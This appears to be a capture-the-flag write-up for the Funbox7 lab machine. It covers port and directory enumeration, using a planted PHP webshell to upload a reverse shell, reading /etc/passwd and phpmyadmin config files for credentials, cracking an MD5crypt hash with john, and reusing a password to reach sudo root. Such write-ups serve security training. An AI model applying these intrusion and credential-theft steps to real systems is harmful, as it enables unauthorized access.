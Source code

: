 # Enumeration

Lets start with nmap
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-26 10:50 IST
Nmap scan report for 192.168.221.132
Host is up (0.30s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
|_  256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.49 seconds
```

Looking at results, we have just 2 port open: 22 and 80. 

## PORT 80
Navigating to IP gave us default apache page, nothing else. Lets start enumerating for hidden web directories, we'll be using `ffuf`.
```bash
fuf -u http://192.168.221.132/FUZZ -w /usr/share/wordlists/dirb/big.txt -c -e .txt,.html,.php           [5/157]
                                                                                                                                                                         
        /'___\  /'___\           /'___\                                                                                                                                  
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                  
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                                 
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                 
         \ \_\   \ \_\  \ \____/  \ \_\        
          \/_/    \/_/   \/___/    \/_/        

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.221.132/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Extensions       : .txt .html .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376]         
javascript              [Status: 301, Size: 323, Words: 20, Lines: 10]
mini.php                [Status: 200, Size: 3828, Words: 152, Lines: 115]
phpmyadmin              [Status: 301, Size: 323, Words: 20, Lines: 10]
robots.txt              [Status: 200, Size: 21, Words: 2, Lines: 2]
```
Looking at ffuf results, we have:
- *robots.txt*, but it does not have anything helpful for us
- Another interesting found was ***PhpMyadmin***, but in order to proceed with it, we need to authenticate first. As we dont have any set of credentials, we'll skip this for now.
- Another thing was ***Mini.php***, Navigating to it


### Mini.php
![image](https://user-images.githubusercontent.com/43528306/123503316-f3818e00-d66f-11eb-8181-fc53a9d7ffd7.png)

Its a php webshell.The webshell allows us to upload files directy to root directory of webserver. Here,we can use this to upload a php rev-shell on the box. 
Upload a simple PHP reverse shell and start up the listner.

## Shell as www-data
We got shell as *www-data*. Looking in few directories up, we found our first flag.

Looking at other users present box
```bash
www-data@funbox7:/etc/phpmyadmin$ cat /etc/passwd | grep -i "sh$"
root:x:0:0:root:/root:/bin/bash
karla:x:1000:1000:karla:/home/karla:/bin/bash
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
```
Surprisingly, `/etc/passwd` file contained password for user `oracle`. Looking at the hash, we can say that its MD5Crypt. We can crack the hash using either john or hashcat.
We'll use john here with rockyou.
```bash                                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$  cat hash                                                                                                                                                        1 ⨯
$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0

┌──(kali㉿kali)-[~]
└─$  john --wordlist=rockyou.txt hash  
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hiphop           (?)
1g 0:00:00:00 DONE (2021-11-24 22:52) 3.846g/s 1476p/s 1476c/s 1476C/s 123456..michael1
Use the "--show" option to display all of the cracked passwords reliably
Session completed          
```
John immediately cracked the hash, giving us the plain-text password `hiphop`. We can use this to switch to Oracle user. The Oracle User didn't have  any interesting files or any way to escalate to root. 

Looking back, we also had phpmyadmin running on the box.We can start looking for configuration files of phpmyadmin. A quick google search, gave us the location of configuration for PHPmyadmin i.e `/etc/phpmyadmin` directory. Looking in the directory, we have `config-db.php`
```php
www-data@funbox7:/etc/phpmyadmin$ cat config-db.php
cat config-db.php
<?php
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';
...[snip]...
?>
```

## Root
We found a password in `config-db.php`. We can use the same password for other users on the box, and we got a hit with *karla* user. We can now login as *Karla* on the box.
Looking at groups,*karla* was a member of sudo group which gave us easy root.
```bash
karla@funbox7:/etc/phpmyadmin$ sudo -l
sudo -l
Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL
```
ROOT!!

Refrences
---
- https://man7.org/linux/man-pages/man3/crypt.3.html
